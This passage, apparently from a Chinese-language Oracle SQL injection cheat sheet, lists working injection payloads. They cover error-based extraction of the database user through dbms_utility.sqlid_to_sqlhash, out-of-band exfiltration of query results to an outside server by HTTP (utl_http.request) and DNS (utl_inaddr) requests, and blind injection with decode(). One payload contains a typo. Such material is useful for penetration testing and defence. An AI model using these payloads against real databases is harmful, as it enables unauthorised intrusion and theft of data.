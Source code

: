 * dbms_utility.sqlid_to_sqlhash()

```sql
' and (select dbms_utility.sqlid_to_sqlhash((select user from dual)) fron dual) is not null --

SQL> select user from dual where (select dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-13797: 指定了无效的 SQL ID, SCOTT
ORA-06512: 在 "SYS.DBMS_UTILITY", line 1218
```

> 11g对utl_inaddr&utl_http默认存在ACL限制；

## Oracle 带外通信获取查询结果的方法

可以使用Oracle发送HTTP和DNS请求，并将查询结果带到请求中，然后监测外网服务器的HTTP和DNS日志，从日志中获取查询结果，通过这种方式将盲注转换成可以直接简便的获取查询结果的方式。

### HTTP

* utl_http.request()

```sql
' and 1=utl_http.request('http://127.0.0.1:8086/'||(select banner from sys.v_$version where rownum=1)) --

```

### DNS

* utl_inaddr.get_host_address()

```sql
' and (select utl_inaddr.get_host_address((select user from dual)||'.youhost') from dual)is not null--
```

## 盲注

可以使用ASCII()，substr()这种通用组合获取数。

* 使用decode()函数进行盲注：

```sql
decode(条件,值1,返回值1,值2,返回值2,...值n，返回值n,缺省值)

if （条件==值1）
then
return(翻译值1)
elsif （条件==值2）
then
return(翻译值2)
......
elsif （条件==值n）
then 
return(翻译值n)
else
return(缺省值)
end if
```
